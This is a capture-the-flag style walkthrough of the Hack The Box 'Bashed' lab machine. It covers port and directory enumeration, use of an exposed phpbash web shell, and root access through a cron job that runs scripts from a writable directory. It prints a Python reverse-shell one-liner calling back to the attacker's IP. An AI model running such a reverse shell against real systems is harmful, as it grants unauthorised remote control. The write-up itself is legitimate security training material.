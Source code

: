 Title: HTB Bashed box writeup
Tags: oscp, htb
Summary: Walkthrough for this one
Date: 01/09/2020 15:30
Status: published

# Enumeration
Let's start with -sS all TCP range since we are not limited in traffic and not afraid of IDS:
<pre>
    # Nmap 7.80 scan initiated Tue May 12 19:05:00 2020 as: nmap -sS -p- -oA enum/nmap-ss-t-all 10.10.10.68
    Nmap scan report for bashed.htb (10.10.10.68)
    Host is up (0.061s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http

    # Nmap done at Tue May 12 19:06:30 2020 -- 1 IP address (1 host up) scanned in 90.26 seconds
</pre>
Not so much eh. I tried to run sU scan in the background and found nothing interesting. Looks like the webserver is
the way in. Spin up gobuster scan to find something interesting and while it's running let's go and see what's
interesting is there. Both `10.10.10.68` and `bashed.htb` which I added to `/etc/hosts`, leads to the same page
with some interesting info:

![phpbashed page](/cstatic/htb-bashed/phpbash-web.png)

There might be that shell somewhere in there. I also manually inspected source code of this page to try to find
some interesting details, but found only usual stuff like `/images` directory. At the time gobusted did his work:
<pre>
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /css (Status: 301)
    /dev (Status: 301)
    /fonts (Status: 301)
    /images (Status: 301)
    /js (Status: 301)
    /php (Status: 301)
    /server-status (Status: 403)
    /uploads (Status: 301)
</pre>
`/dev` entry looks very promising, especially with the fact that blog admin stated that he was developing php shell
on this server. Indeed this dir is listable and there are some web phpbash shells in there:

![phpbash shell](/cstatic/htb-bashed/php-web-shell.png)

There is netcat on this box, but it was compiled w/o `-e` option. I tried to sent back bash revshell via `/dev/tcp`
but it seems that current user has no access to this subsystem, so I used python reverse shell oneliner instead:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.14.13",53))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash", "-i"])
```
Just wrapped it in one line with semicolons and run it with `python3 -c`. Interactive unpriv shell:

![unpriv shell](/cstatic/htb-bashed/unpriv-shell.png)

# Privilege escalation
We could run sudo w/o password as scriptmanager:

![sudo scriptmanager](/cstatic/htb-bashed/sudo-l.png)

This user owns some interesting directory under root:

![scriptmanager dir](/cstatic/htb-bashed/scriptmanager-files.png)

There are only two files in this directory, one simple python  script and a txt file:

![scripts](/cstatic/htb-bashed/scripts.png)

Notice that while the `test.py` owned by scriptmanager:scriptmanager, `test.txt` is owned and
only writable by root. This is a direct hint that `test.py` might have been executing with
root privileges in some way, first though that there is a cron job that runs it. I found nothing
useful in cron folders, crontab file or `/var/log` so I've uploaded [pspy](https://github.com/DominicBreuker/pspy)
and my hypothesis turned to be right:

![cron hit](/cstatic/htb-bashed/cron.png)

The job will run every `.py` file in `/scripts` so we could just reuse our reverse shell from
above to acquire root privileges:

![root shell](/cstatic/htb-bashed/root-shell.png)
